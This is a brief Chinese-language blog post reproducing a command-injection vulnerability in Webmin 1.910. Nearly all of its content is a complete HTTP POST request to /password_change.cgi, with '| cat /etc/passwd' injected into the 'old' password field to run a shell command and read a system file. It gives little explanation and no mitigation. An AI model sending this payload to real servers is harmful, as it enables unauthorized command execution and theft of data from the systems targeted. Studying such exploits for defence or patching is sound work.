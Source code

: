 ```yaml
---
layout: post
title: "webmin_CMS命令执行漏洞复现"
subtitle: "webmin_CMS命令执行漏洞复现"
date: 2019-08-19
author: ppbibo
category: security
finished: true
---
```

[TOC]

## 正文

看到群里表哥曝出 webmin CMS 命令执行漏洞，所以复现下。

**version： Webmin 1.910**

```http
POST /password_change.cgi HTTP/1.1

Host: 107.**.**.**:30000

Referer: https://107.**.**.**:30000/sesss.cgi

Content-Type: application/x-www-form-urlencoded

Content-Length: 73

user=demo&pam=&expired=2&old=test | cat /etc/passwd&new1=test2&new2=test2
```



**RT：**

![webmin](/static/img/webmin.png)



